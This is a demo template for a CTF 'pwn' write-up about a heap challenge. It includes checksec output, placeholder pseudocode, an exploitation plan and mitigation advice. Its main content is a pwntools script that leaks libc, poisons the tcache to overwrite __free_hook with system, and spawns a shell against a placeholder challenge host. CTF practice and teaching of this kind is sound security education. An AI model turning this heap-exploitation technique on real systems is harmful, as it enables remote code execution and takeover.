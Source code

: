 ```yaml
---
title: "Demo Heap Challenge"
date: 2024-01-15T10:30:00Z
category: "ctf"
tags: ["demo", "template", "heap-exploitation"]
challenge_category: "pwn"
challenge_points: 450
challenge_solves: 12
summary: "Demo template for heap exploitation writeups - demonstrates proper formatting and structure."
ctf_name: "Demo CTF"
---
```


# Demo Heap Challenge - Demo CTF

**Category**: pwn
**Points**: 450
**Solves**: 12

*This is a demo template showing the proper structure for CTF writeups.*

## Challenge Description

```
[Challenge description from CTF organizers would go here]

nc challenge.example.com 31337
```

**Files**: `binary_name`, `libc.so.6`

## Initial Analysis

Binary checksec and basic reconnaissance:

```bash
$ file binary_name
binary_name: ELF 64-bit LSB executable, x86-64, dynamically linked

$ checksec binary_name
[*] '/path/to/binary_name'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Static Analysis

Decompiled pseudocode from Ghidra/IDA would go here:

```c
void main() {
    setup();
    puts("Welcome to the challenge!");

    while (1) {
        menu();
        int choice = get_int();

        switch (choice) {
            case 1: allocate_chunk(); break;
            case 2: free_chunk(); break;
            case 3: edit_chunk(); break;
            case 4: view_chunk(); break;
            case 5: exit(0); break;
            default: puts("Invalid choice"); break;
        }
    }
}
```

Key functions analysis:

### allocate_chunk()
```c
void allocate_chunk() {
    int idx = get_index();
    // Function implementation details
}
```

### free_chunk()
```c
void free_chunk() {
    int idx = get_index();
    // Function implementation with potential bug
}
```

## Vulnerability Analysis

Description of the vulnerability found:
- **Vulnerability Type**: (e.g., Use-After-Free, Buffer Overflow, Double-Free)
- **Location**: Where it occurs in the code
- **Primitives**: What capabilities it provides (arbitrary read/write, info leak, etc.)

Example vulnerability description:
1. The vulnerability allows editing freed chunks
2. This leads to heap metadata corruption
3. Can achieve arbitrary write primitive

## Exploitation Strategy

High-level exploitation plan:

1. **Leak libc addresses** using unsorted bin or other technique
2. **Gain primitive** through tcache/fastbin poisoning or similar
3. **Overwrite target** such as `__free_hook` or `__malloc_hook`
4. **Trigger shell** by executing system("/bin/sh") or equivalent

## Exploitation Implementation

```python
#!/usr/bin/env python3
from pwn import *

# Setup
context.arch = 'amd64'
context.log_level = 'debug'

# Connection
if args.REMOTE:
    p = remote('challenge.example.com', 31337)
else:
    p = process('./binary_name')

# Helper functions
def allocate(idx, size):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())

def free(idx):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'Index: ', str(idx).encode())

def edit(idx, data):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.sendafter(b'Data: ', data)

def view(idx):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'Index: ', str(idx).encode())

# Step 1: Leak libc base
log.info("Step 1: Leaking libc base address")

# Create chunks for leak
allocate(0, 0x420)  # Large chunk for unsorted bin
allocate(1, 0x20)   # Prevent consolidation

# Free and leak
free(0)
view(0)
p.recvuntil(b'Data: ')
leak = u64(p.recvline().strip().ljust(8, b'\x00'))

# Calculate addresses
libc_base = leak - 0x1ebbe0  # Adjust offset for your libc version
system = libc_base + 0x55410
free_hook = libc_base + 0x1eee48

log.success(f"Libc base: {hex(libc_base)}")

# Step 2: Tcache poisoning or similar technique
log.info("Step 2: Performing heap exploitation")

# Exploitation steps here
allocate(3, 0x60)
allocate(4, 0x60)
free(3)
free(4)

# Corrupt tcache linked list
edit(4, p64(free_hook))

# Step 3: Get arbitrary write
log.info("Step 3: Getting arbitrary write primitive")

# Allocate to get control
allocate(6, 0x60)
allocate(7, 0x60)

# Write to target
edit(7, p64(system))

# Step 4: Get shell
log.info("Step 4: Getting shell")

# Trigger exploit
allocate(9, 0x20)
edit(9, b"/bin/sh\x00")
free(9)

# Shell!
p.interactive()
```

## Key Insights

- Understanding of heap allocator internals is crucial
- Modern mitigations require creative bypass techniques
- Heap feng shui is often necessary for reliable exploitation
- Information leaks are typically required to defeat ASLR

## Mitigation

The vulnerability could be prevented by:
- Setting pointers to NULL after freeing
- Implementing proper bounds checking
- Using memory-safe languages or smart pointers
- Enabling additional heap protections (e.g., GWP-ASan, tcache hardening)

---

**Flag**: `FLAG{demo_flag_format_here}`
